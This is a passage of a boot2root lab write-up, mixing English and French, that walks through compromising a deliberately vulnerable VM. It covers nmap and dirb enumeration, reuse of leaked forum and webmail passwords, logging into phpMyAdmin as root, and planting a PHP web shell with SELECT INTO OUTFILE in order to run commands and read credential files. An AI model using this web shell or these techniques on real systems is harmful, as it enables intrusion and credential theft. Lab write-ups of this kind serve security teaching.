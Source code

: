  ```
 ____              _   ___  _____             _   
 |  _ \            | | |__ \|  __ \           | |  
 | |_) | ___   ___ | |_   ) | |__) |___   ___ | |_ 
 |  _ < / _ \ / _ \| __| / /|  _  // _ \ / _ \| __|
 | |_) | (_) | (_) | |_ / /_| | \ \ (_) | (_) | |_ 
 |____/ \___/ \___/ \__|____|_|  \_\___/ \___/ \__|
 ```
 
After the setup we are presented with 

![BorntoSec](https://github.com/Ziltoid42/Boot2Root_42/blob/master/bonus/images/setup.png)



-----------------------------------------------------------------------------------

## Information gathering

The first step is to understand what we can gain access to and where is it located.

* First step is to find the ip of the VM by using ifconfig 
ifconfig should display a range of IP for the vm between 1 and 255

* Second step is to use ***nmap*** in order to uncover wich ports are open by executing: ```nmap <IP>.1-255```

This gives back the precise IP and the open ports:
```
Nmap scan report for 192.168.99.100
Host is up (0.00048s latency).
Not shown: 994 closed ports
PORT    STATE SERVICE
21/tcp  open  ftp
22/tcp  open  ssh
80/tcp  open  http
143/tcp open  imap
443/tcp open  https
993/tcp open  imaps
```
80 should be open and accessible Through a web browser

We are presented to a basic webpage:
![website](https://github.com/Ziltoid42/Boot2Root_42/blob/master/bonus/images/website.png)

--------------------


Avec nmap on recupere les ports, il y a un http et un https sur l'adresse IP 192.168.99.100

On recupere un script appelle DIRB qui a partir d'un dictionnaire teste la presence d'elements dans l'arboressence.
https://sourceforge.net/projects/dirb/i


En testant ./dirb https://192.168.99.100/ wordlists/common.txt -w

on se rend compte qu'il y a :
un forum auquel on peut acceder par navigateur
un webmail https://192.168.99.100/webmail/src/login.php
un phpmyadmin


Il y a un lien qui liste les users https://192.168.99.100/forum/index.php?mode=user

lmezard a un seul poste dans : "Probleme login ?"

dans probleme login il y a une entree etrange --> Failed password for invalid user !q\]Ej?*5K5cy*AJ from
On vois quil existe un user "root"
il y a aussi un "Oct 5 14:54:29 BornToSecHackMe sudo: admin : TTY=pts/0 ; PWD=/home/admin ; USER=root ; COMMAND=/bin/sh" ?

Si on essaie !q\]Ej?*5K5cy*AJ en password pour lmezard ca passe.
on peut recuperer son mail --> laurie@borntosec.net

On va le tenter dans le webmail avec le meme password et ca passe ouuuuuh!!!!

IL Y A UN MESSAGE DB ACCESS !!!

-->
Hey Laurie,

You cant connect to the databases now. Use root/Fg-'kKXBj87E:aJ$

Best regards.
-->
Bouyaaa !!!

il y a aussi les mails de
ft_root@mail.borntosec.net
qudevide@mail.borntosec.net

En magouillant un peu sur le login de phpmyadmin
login: root
pass: Fg-'kKXBj87E:aJ$

CA PASSE

On suis ce tuto :http://www.informit.com/articles/article.aspx?p=1407358&seqNum=2

Ils nous donnent:
select “<? System($_REQUEST[‘cmd’]); ?>” into outfile “/cmd.php”;

Cela permet d'inserer un shell basique qui prend des commandes via url, mais il faut trouver ou le placer

Vue que c'est un site web il sera en  /var/www/html/

en tentant les differents sous dossiers de dossier de forum (obtenus via DIRB)
on arrive finalement a placer dans template_c

SELECT "<? System($_REQUEST['cmd']); ?>" into outfile "/var/www/forum/templates_c/cmd.php";

A partir de la on peux lancer des commandes via le navigateur, notament ls pour comprendre l'arborecense

https://192.168.99.100/forum/templates_c/cmd.php?cmd=ls%20../../../../home

https://192.168.99.100/forum/templates_c/cmd.php?cmd=cat%20../../../../home/LOOKATME/password
Montre un dossier LOOKATME avec dedans un Login/Password :
lmezard:G!@M6f4Eatau{sF"

en se connectant en ftp on peut entrer ce password et acceder a un README : "Complete this little challenge and use the result as password for user 'laurie' to login in ssh"

et a un fichier fun

Ce fichier fun contiens des instructions:




Password SSH de Laurie

laurie / 330b845f32185747e4f8ca15d40ca59796035c89ea809fb5d30f4da83ecf45a4

